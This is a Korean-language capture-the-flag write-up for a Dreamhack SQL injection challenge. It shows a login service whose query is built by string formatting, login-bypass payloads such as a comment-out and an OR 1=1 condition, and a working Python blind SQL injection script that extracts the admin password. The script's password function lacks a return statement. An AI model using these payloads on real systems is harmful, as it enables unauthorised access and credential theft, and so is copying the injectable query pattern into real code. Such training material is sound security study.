

## 문제 설명
[24](https://dreamhack.io/wargame/challenges/24)

로그인 서비스입니다.

SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 `flag.txt`, FLAG 변수에 있습니다.


## 정보
`POST /login` 요청 시 HTTP Request와 Response는 다음과 같다.



유저로부터 `userid`, `userpassword` 값을 입력 받아 서버로 전송한다.

서버 측에서 실행되는 코드는 다음과 같다.

서버 구동 시 아래 DDL을 실행해 `users` 테이블에 초기값을 밀어 넣는다.

```python
DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()
```

`POST /login` 요청 시 다음 코드가 동작한다.

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```

`userid`, `userpassword` 값은 그대로 DB 쿼리문을 생성하는 데 사용된다.

`query_db()` 함수는 다음과 같다.

```python
def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv
```

DB 커넥션을 얻어와 쿼리를 실행하고, 그 결과를 반환한다. `POST /login`으로 HTTP 요청 시 WHERE 절 이하의 조건과 일치하는 모든 행을 조회하고, 쿼리 결과의 첫 번째 행을 반환한다.

따라서 입력으로 받은 `userid`와 `userpassword`의 값이 일치하는 경우 해당 유저는 로그인 처리된다.


## 취약점
유저의 입력으로 받은 값을 그대로 이용해 SQL을 생성하고, 생성된 SQL을 그대로 사용해 DB에 질의하므로 유저 입력으로 인해 SQL이 손상될 가능성이 있다.


## 풀이
두 가지 방법을 생각해볼 수 있다. 로그인 자체를 우회하는 방법과 admin 계정의 비밀번호를 알아내 로그인하는 방법이 가능하다.

먼저 로그인 자체를 우회하는 방법은 다음과 같다.

WHERE 절 이하의 조건을 만족하는 테이블 로우를 조회할 수 있으므로 아래와 같은 SQL을 쿼리하면 `userid == 'admin'`인 로우를 조회할 수 있다.

```python
res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
```
```sql
SELECT * FROM users WHERE userid = 'admin';
```

SQL WHERE 절의 두번째 조건을 무효처리 되도록 `userid`의 입력값을 조작했다.

```sql
SELECT * FROM users WHERE userid = 'admin'; -- AND userpassword = '';
```
```python
res = query_db(f'select * from users where userid="admin";--" and userpassword=""')
```

두 번째 조건이 무효 처리되도록 하는 방법 외에도 OR 조건을 추가해 WHERE 절을 참으로 만들 수도 있다.

```sql
SELECT * FROM users WHERE userid = 'admin' OR 1 = 1 AND userpassword='pw';
```
```python
res = query_db(f'select * from users where userid="admin" or "1" = "1" and userpassword="pw"')
```

다른 방법은 Blind SQL Injection 공격을 수행해 admin 유저의 실제 비밀번호 값을 알아내 로그인하는 것이다. DB의 인코딩 방식이 ASCII일 때는 128개의 문자에 대해서만 탐색하면 된다. 만약 인코딩이 UTF-8이라면 가용한 문자 집합이 더 크기 때문에 단순히 브루트 포스 방식으로는 어려울 수 있다.

인쇄 가능한 문자 범위는 32 - 126이다. 총 94개의 문자가 비밀번호의 각 자리에 들어갈 수 있다. 시도해야 하는 공격 횟수는 비밀번호 자릿수는 `94^자릿수`에 해당하므로 admin 계정의 비밀번호의 실제 자릿수를 우선 알아낸 다음 Blind SQL Injection을 시도한다.

```python
import requests

class BlindSQLi:

    #initialization
    def __init__(self, port: str) -> None:
        self._url = f"http://host3.dreamhack.games:{port}/login"

    # Base HTTP Methods
    def _login(self, userid:  str, userpassword: str) -> bool:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        res = requests.post(self._url, data=login_data)
        return res

    # SQLi Method
    def _sqli(self, query: str) -> requests.Response:
        res = self._login(f'" or {query}-- ', "x")      # 로그인 form 입력값
        return res

    # Find Password Length
    def _binary_search(self, query_base: str, start: int, end: int) -> int:
        while 1:
            mid = (start + end) // 2
            if start + 1 >= end:
                break
            query = query_base.format(value = mid)
            print(query)
            if "hello" in self._sqli(query).text:
                end = mid
            else:
                start = mid

        return mid

    # Get Password Length
    def _find_password_length(self, user: str, max_length: int = 100) -> int:
        query = f'((SELECT LENGTH(userpassword) WHERE userid="{user}") < {{value}})'
        pw_lenfth = self._binary_search(query, 0, max_length)
        return pw_lenfth

    def _find_password(self, user: str, pw_length: int) -> str:
        pw = ""
        for idx in range(1, pw_length + 1):
            query_base = f'(SELECT SUBSTR(userpassword, {idx}, 1) WHERE userid="{user}") < CHAR({{value}})'
            pw += chr(self._binary_search(query_base, 32, 126))
            print(f"{idx}: {pw}")

    def attack(self) -> None:
        # Get Password Length
        pw_length = self._find_password_length("admin")
        print(f"Admin Password Length: {pw_length}")

        # Attack Bline SQLi
        pw = self._find_password("admin", pw_length)
        print(f"Admin Password: {pw}")


if __name__ == "__main__":
    port = "21630"	# PORT
    bsqli = BlindSQLi(port)
    bsqli.attack()
```
